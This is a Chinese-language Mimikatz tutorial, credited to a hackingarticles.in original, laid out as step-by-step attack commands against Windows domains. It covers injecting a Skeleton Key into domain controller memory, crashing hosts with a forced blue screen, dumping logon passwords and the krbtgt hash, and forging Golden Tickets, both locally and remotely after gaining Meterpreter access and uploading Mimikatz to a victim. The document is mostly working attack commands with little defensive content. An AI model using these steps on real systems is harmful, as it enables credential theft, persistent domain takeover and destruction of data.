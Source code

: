 ## Mimikatz指南

### **什么是Mimikatz？** [^1]

### **用Mimikatz生成Skeleton Key** [^2]

1. 首先，我将尝试使用mimikatz作为密码登录我的服务器。
2. 可以清楚地看到我们无法使用“mimikatz”作为密码登录服务器
3. 现在我将使用其密码“T00r”登录服务器
4. 正如您在下面看到的，我使用正确的密码登录了服务器
5. 如果您曾登录过服务器或已解锁服务器，则可以使用Mimikatz创建一个存储在服务器内存中的框架密钥
6. 首先，我们将使用Mimikatz获得调试权限 `privilege::debug`
7. 然后我们将使用mimikatz框架密钥注入服务器的==内存==中  `misc::skeleton`
8. 有了这个，我们就可以在服务器上成功注入我们的万能钥匙
9. **注意：**您必须使用Administrative Privilege打开mimikatz才能创建Skeleton Key。
10. 现在我将尝试使用我们刚刚在内存中注入的骨架键“mimikatz”登录服务器。记得上次我们尝试使用mimikatz作为密码登录服务器时，我们没有成功。
11. 但这次'mimikatz'被接受为密码。这并不意味着我们重置了原始密码'T00r'。服务器将继续使用'T00r'登录，但现在它也将接受'mimikatz'作为密码。
12. 我们在内存中注入了框架密钥，而不是在存储器中，因此下次管理员重新启动服务器时，我们将失去访问权限。因此，保护域控制器免受Skeleton Key保护的最佳方法是经常重启服务器或阻止mimikatz访问内存。

### **使用Mimikatz让主机蓝屏死机（BSOD）**

1. 使用**管理员**运行mimikatz
2. 启动mimidrv服务  `!+`
3. 现在按以下命令启动BSOD `!bsod`
4. **注意：**此攻击可能会破坏数据并**可能损害系统**。小心使用!!

### **显示主机名**

`hostname`

### 使用Mimikatz生成Golden Ticket  [^3]

1. 要获取域，我们将从命令行或PowerShell 运行  `ipconfig  /all` 。取Primary Dns Suffix值
2. 现在要获得SID，我们将使用 `whoami / user` 命令
3. 现在我们使用mimikatz自己提取生成Ticket所需的NTLM哈希。
4. `privilege::debug`
5. `sekurlsa::logonpasswords`
6. 生成票证 [^4]
7. `kerberos::golden /domain:PAVAN.LOCAL /sid:S-1-5-21-1118594253-693012904-2765600535 /rc4:9a7a6f22651d6a0fcc6e6a0c723c9cb0 /user:hacker /id:500 /ptt`
8. 这里正在为名为“ **hacker** ” 的用户创建Golden Ticket; 使用`[/ ppt]`选项在当前会话中传递票证
9. 现在运行命令提示符以访问共享文件夹并执行以下命令
10. `pushd \\WINSERVER01\c$`
11. 现在我们在Z：驱动程序执行以下命令用于NT目录服务
12. `cd WINDOWS\NTDS & DIR`
13. 正如您所看到的那样，我们可以访问共享文件夹，如果没有Admin Access就无法访问该文件夹，但我们已经获得了它而不使用CMD作为管理员

### **远程生成Golden Ticket**

1. 首先获取服务器的Meterpreter访问权限
2. 获得meterpreter后，使用该命令将mimikatz文件夹上传到受害者系统
3. `upload -r /root/Desktop/mimi c:\` **使用-r**以便递归地上载upload命令
4. 打开shell并使用 `ipconfig / all`  解析Domain
5. `whoami / user` 获取SID
6. 运行 **mimikatz.exe**
7. 现在使用以下命令提取**krbtgt NTLM哈希**
8. `lsadump::lsa /inject /name:krbtgt` 取**ntlm**值
9. 生成Golden Ticket
10. `kerberos::golden /domain:pavan.loc /sid:S-1-5-21-97841242-3460736137-492355079 /rc4:e847d2e54044172830e3e3a6b8438853 /user:Hacker /id:500 /ptt`

### **破解扫雷游戏**

`minesweeper::infos`

[原文](https://www.hackingarticles.in/understanding-guide-mimikatz/)

---

[^1]: Mimikatz是[Benjamin Delpy](https://twitter.com/gentilkiwi?lang=en)用C语言制作的工具。它是从内存中提取纯文本密码，哈希值和Kerberos票证的绝佳工具。它也可以用于生成Golden Ticket。[项目地址](https://github.com/gentilkiwi/mimikatz)
[^2]: 在这次攻击中，mimikatz在域控制器上安装补丁以接受“mimikatz”作为新的登录密码？它可以被视为**主密钥**，它将向攻击者打开Active Directory。可以如下所示执行此攻击。
[^3]: 要生成金票，我们需要以下信息：**域、SID、NTLM哈希**
[^4]: **语法：** `Kerberos :: golden / domain：[Domain] / sid：[SID] / rc4：[NTLM Hash] / user：[Username To Create] / id：500 / ptt`